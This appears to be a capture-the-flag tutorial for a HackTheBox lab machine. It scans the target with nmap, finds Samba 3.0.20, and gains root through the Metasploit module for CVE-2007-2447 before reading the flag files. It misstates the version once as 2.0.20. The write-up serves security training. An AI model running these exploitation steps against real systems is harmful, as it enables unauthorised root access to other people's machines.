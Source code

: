 ### Knowledge requirements:

1. CMD UNIX/Linux.
2. Network fundamentals.


### Beginning of the tutorial:

We start with a IP check connection:


```
ping 10.10.10.3
```

Connection succeeded. Now we run `nmap` and save the output in "output_nmap.txt":

```
nmap -sC -sV 10.10.10.3 -oN output_nmap.txt
```

`nmap` is a tool to scan and obtain hosts information within a network. It is highly used in network auditories. It allows administrators to discover hosts and network services, as well as open ports, operating systems or software versions.

`-sC`: This argument activates the scripts that belong to `nmap's library`. It activates "default" and "safe" scripts to provide information about services and applications executed on the detected ports.

`-sV`: This argument tries to determine the service version of the open ports.

We see some open ports and choose the following: `445/tcp open netbios-ssn samba smbd 3.0.20-Debian (workgroup: WORKGROUP)`

Details about the service and software version of this port:

1) `Port 445/tcp` is used by SMB service for communication. It is known to be susceptible to various types of attacks. Including DoS, shared resource enumeration and remote code execution (if vulnerabilities exist).

2) `Samba` service is an implementation of SMB (Server Message Block) protocol that enables interoperability between Linux/UNIX and Windows systems.
It facilitates file and printer sharing between Windows and Unix/Linux-based systems.

3) `smbd 2.0.20-Debian`version. Knowing the software version can be useful in determining if there is a known vulnerability associated to this port. The older the version, the more likely it is to have several vulnerabilities that can be exploited. You can check on vulnerability databases (e.g., [CVE](https://cve.mitre.org/cve/search_cve_list.html)) to see if there are exploits or attack techniques that can be leveraged.

Checking on Google (or using [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447)) `Samba smbd 3.0.20-Debian` you can observe the `CVE-2007-2447 Samba "username map script" Command Execution`[in rapid7 website](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/).

Rapid7 webpage provides the information to load the needed module and exploit this vulnerability. To do so, we call `metasploit`. Run:
```
msfconsole
use exploit/multi/samba/usermap_script
set rhost 10.10.10.3
```
`set rhost 10.10.10.3` Specifies the remote host that you intend to interact with. It uses the payload automatically. In metasploit terminology, a `payload` refers to the component of an exploit module that performs a specific action on a target system. Then execute:

```
whoami
```
To verify that we are a root user. Then run:
```
cd home/
ls -la
```
Check for the folder `makis`, access it and get the outcome of "user.txt". For that run:
```
cd makis
cat user.txt
```
The same for root user. In one command:
```
cat /root/root.txt
```
Which is the information you must introduce into HackTheBox.

#### End of the tutorial.
